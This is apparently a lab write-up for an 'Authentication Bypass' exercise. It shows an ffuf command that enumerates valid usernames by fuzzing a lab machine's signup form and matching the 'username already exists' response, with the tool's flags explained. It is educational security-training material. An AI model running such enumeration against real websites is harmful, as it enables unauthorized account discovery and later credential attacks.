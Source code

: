# 🔓 Authentication Bypass

## 📝 Introduction

In this room, **Authentication Bypass**, we aim to understand how to identify and exploit vulnerabilities that allow attackers to bypass authentication mechanisms. These vulnerabilities can lead to unauthorized access, data leaks, and full system compromise. 
Understanding these techniques is crucial for both offensive security testing and defensive hardening.

## ⚙️ Process

### 1. **Username Enumeration**
will try to create a valid usernames list for the targeted website through the sign-up page, to find all usernames logged into it previously.
To conduct this attack, we will use ffuf, which is a enumeration tool that can be downloaded from https://github.com/ffuf/ffuf.
Create a text file that stores the outputs.

from my terminal:

ffuf -w /home/kali/names.txt \
     -u http://10.10.165.187/customers/signup \
     -X POST \
     -d "username=FUZZ&email=x&password=x&cpassword=x" \
     -H "Content-Type: application/x-www-form-urlencoded" \
     -mr "username already exists" \
     -o valid.txt

Note: correct order for the flags is =>  
				
					-w -> -u -> -X -> -d -> other flags

-w word list
-u target
-X post HTTP method
-d data

<img width="1072" height="620" alt="ffuf" src="https://github.com/user-attachments/assets/71de6c3d-75d8-4f0d-b441-0b9fbf7a0a0d" />




-H Header
-mr match response
-o output file
